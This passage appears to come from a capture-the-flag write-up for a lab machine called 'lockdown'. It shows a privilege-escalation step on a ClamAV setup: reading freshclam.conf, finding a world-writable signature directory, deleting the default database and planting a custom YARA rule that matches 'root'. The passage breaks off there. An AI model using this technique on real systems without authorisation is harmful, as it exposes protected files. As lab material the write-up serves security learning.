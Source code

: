 This script is using `clamscan` which is a command line tool which uses libclamav to scan files and/or directories for viruses. I searched a lot and found out that clamscan or ClamAV, supports yara rules. With having enough permissions, we can import our own rule and do what we want.

The main config file is `/etc/clamav/freshclam.conf`:

~~~
cyrus@lockdown:~$ cat /etc/clamav/freshclam.conf
# Automatically created by the clamav-freshclam postinst
# Comments will get lost when you reconfigure the clamav-freshclam package

DatabaseOwner clamav
UpdateLogFile /var/log/clamav/freshclam.log
LogVerbose false
LogSyslog false
LogFacility LOG_LOCAL6
LogFileMaxSize 0
LogRotate true
LogTime true
Foreground false
Debug false
MaxAttempts 5
DatabaseDirectory /var/lib/clamav     <------------
DNSDatabaseInfo current.cvd.clamav.net
ConnectTimeout 30

[REDACTED]
~~~

Here we can see where the database is: `/var/lib/clamav`:

~~~
cyrus@lockdown:~$ cd /var/lib/clamav
cyrus@lockdown:/var/lib/clamav$ ls -la
total 16
drwxrwxrwx  2 clamav clamav 4096 Nov 17 12:29 .      <-------------
drwxr-xr-x 45 root   root   4096 Jul 30 20:30 ..
-rw-r--r--  1 root   root     46 Jul 23 20:07 main.hdb
-rw-r--r--  1 root   root     69 May 11  2021 mirrors.dat
~~~

As you probably noticed, we have full access to this directory. First we need to remove the default rules. Then we make our own rule:

### Importing our rule

~~~
cyrus@lockdown:/var/lib/clamav$ rm main.hdb 
rm: remove write-protected regular file 'main.hdb'? yes
cyrus@lockdown:/var/lib/clamav$ nano rule.yara
cyrus@lockdown:/var/lib/clamav$ cat rule.yara 
rule test 
{
  strings:
    $show = "root"
  condition:
    $show
}
~~~
